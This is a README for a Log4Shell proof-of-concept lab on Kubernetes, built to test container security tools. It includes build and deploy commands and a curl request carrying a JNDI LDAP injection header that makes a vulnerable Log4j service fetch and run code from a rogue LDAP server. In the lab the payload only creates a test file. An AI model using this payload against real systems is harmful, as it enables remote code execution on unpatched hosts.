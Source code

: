 # log4shell-kubernetes

A log4shell proof of concept running on Kubernetes.

This is not different on running other POC, it's provided to test Kubernetes specific security tools.

It uses the following projects:
* https://github.com/christophetd/log4shell-vulnerable-app
* https://github.com/veracode-research/rogue-jndi

For more information, check:
* https://vicenteherrera.com/blog/log4j-part-i/

## Build and push docker images

You can build your own images if you want instead of using the ones pushed to quay.io.

```bash
git clone https://github.com/veracode-research/rogue-jndi.git
docker build ./rogue-jndi -t quay.io/vicenteherrera/rogue-jndi -f Dockerfile-rogue-jndi
docker push quay.io/vicenteherrera/rogue-jndi

git clone https://github.com/christophetd/log4shell-vulnerable-app.git
cd log4shell-vulnerable-app
docker build . -t quay.io/vicenteherrera/quay.io/vicenteherrera/log4shell-vulnerable-app
docker push quay.io/vicenteherrera/log4shell-vulnerable-app
cd ..
```

The provided `Dockerfile-rogue-jndi` is set to executed on the compromised workload the command:  
`touch /root/test.txt` 

## Start Minikube

If you want to test this locally, you can use Minikube.

```bash
minikube start
```

## Deploy on Kubernetes

```bash
kubectl apply -f vulnerable-log4j.yaml
kubectl apply -f rogue-jndi.yaml
```

## Watch logs

```bash
# On different terminals
kubectl logs service/rogue-jndi -f
kubectl logs service/vulnerable-log4j -f
```

## Launch attack

```bash
kubectl run my-shell --rm -it --image curlimages/curl -- sh
curl vulnerable-log4j:8080 -H 'X-Api-Version: ${jndi:ldap://rogue-jndi:1389/o=tomcat}'
exit
```

## Check that the attack succeded

```bash
kubectl exec service/vulnerable-log4j -it -- ls /root
```

It should list `test.txt` file.
